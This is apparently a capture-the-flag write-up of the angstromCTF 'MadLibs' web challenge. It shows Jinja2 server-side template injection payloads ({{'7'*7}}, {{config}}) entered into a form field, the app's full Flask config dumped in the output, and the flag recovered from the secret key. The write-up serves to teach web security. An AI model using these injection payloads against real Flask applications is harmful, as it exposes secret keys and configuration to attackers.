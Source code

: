 # MadLibs
web - 120 points

## Challenge 
When Ian was a kid, he loved to play goofy Madlibs all day long. Now, he's decided to write his own website to generate them!

http://web2.angstromctf.com:7777/

## Hint
Thank god for templating, or this would have been really annoying to code.

## Solution

When looking through the page, it gives us the source code at the bottom of the story
	
	MadLib generated using program found [here](http://web2.angstromctf.com:7777/get-source)

This shows us that it is a Flask template exploit of some sort.

---

I eventually found this: https://eugenekolo.com/blog/hitcon-ctf-2016-writeups/

If we put `{{'7'*7}}` in the author name, we get the parsed output!

	A Random Story
	Once upon a time, there was a very {{'7'*7}} {{'7'*7}} named {{'7'*7}}. {{'7'*7}} liked to {{'7'*7}}.

	THE END
	This MadLib with title A Random Story was created by 7777777 at 2018-03-18 07:37:07 

---

Similarly, inputting `{{config}}` gives us the flag

	A Random Story
	Once upon a time, there was a very {{config}} {{config}} named {{config}}. {{config}} liked to {{config}}.

	THE END
	This MadLib with title A Random Story was created by &lt;Config {&#39;DEBUG&#39;: False, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;SECRET_KEY&#39;: &#39;actf{wow_ur_a_jinja_ninja}&#39;, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(31), &#39;USE_X_SENDFILE&#39;: False, &#39;LOGGER_NAME&#39;: &#39;__main__&#39;, &#39;LOGGER_HANDLER_POLICY&#39;: &#39;always&#39;, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: None, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: None, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: datetime.timedelta(0, 43200), &#39;TRAP_BAD_REQUEST_ERRORS&#39;: False, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSON_AS_ASCII&#39;: True, &#39;JSON_SORT_KEYS&#39;: True, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: True, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None}&gt; at 2018-03-18 07:40:58 

	Click here to return to the home page. 

	MadLib generated using program found here

## Flag

	actf{wow_ur_a_jinja_ninja}
